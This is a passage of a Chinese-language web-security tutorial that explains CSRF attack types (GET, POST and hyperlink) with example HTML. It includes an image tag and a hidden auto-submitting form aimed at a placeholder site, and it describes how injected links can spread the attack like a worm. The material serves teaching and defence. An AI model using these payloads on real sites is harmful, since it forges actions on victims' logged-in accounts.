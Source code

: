 ## CSRF 攻击类型

- GET 类型

  GET 类型的 CSRF 攻击很简单，只需要一个简单的 HTTP 请求。例如：

  ```html
  <img src="http://a.com/get/article?id=1000&content=CSRF攻击的内容" />
  ```

  当受害者访问这个页面时，浏览器就会立即向 `a.com` 发送一个 HTTP 请求。`a.com`就会收到一个包含受害者登录信息的跨域请求。

  > 防御：GET 方式不要用于更新数据或资源

  <br />

- POST 类型

  POST 类型的 CSRF 攻击通常是利用一个自动提交的表单，例如：

  ```html
  <form target="csrf" method="post" action="http://a.com/post/article">
    <input type="hidden" name="id" value="13" />
    <input type="hidden" name="content" value="一个来自 CSRF 攻击的文本" />
  </form>

  <script>
    // 利用 iframe 进行提交，可以避免提交表单数据之后浏览器刷新
    var iframe = document.createElement("iframe");
    iframe.name = "csrf";
    iframe.style.display = "none";
    document.body.appendChild(iframe);

    setTimeout(function() {
      document.forms[0].submit();
    }, 100);
  </script>
  ```

  受害者访问这个页面后，表单就会自动提交，相当于模拟用户进行了一次 POST 提交。
  上面的表单提交的数据为：

  ```json
  {
    "id": 10,
    "content": "CSRF攻击的内容"
  }
  ```

  如果提交的这条数据被显示在页面上，并且提交的数据中 content 的内容为：`<a href="http://bbb.com">点击领取红包</a>`，那么页面中就会出现一个名称为：`点击领取红包` 的超链接。当用户点击这个超链接，会进入发动 CSRF 攻击的第三方网站，从而再次对受害网站进行了 CSRF 攻击。这样就产生了网络蠕虫。

  > **这种攻击方式之所以能成功，是因为第三方网站发起请求时，会带上目标网站的 Cookies，如果目标网站没有进行安全防御，那么攻击者就能成功伪装成用户，从而进行攻击。**

- 超链接类型

  这种类型的 CSRF 攻击就是把 GET 类型的 CSRF 攻击链接嵌入了超链接中，通过诱导用户点击进行发动。
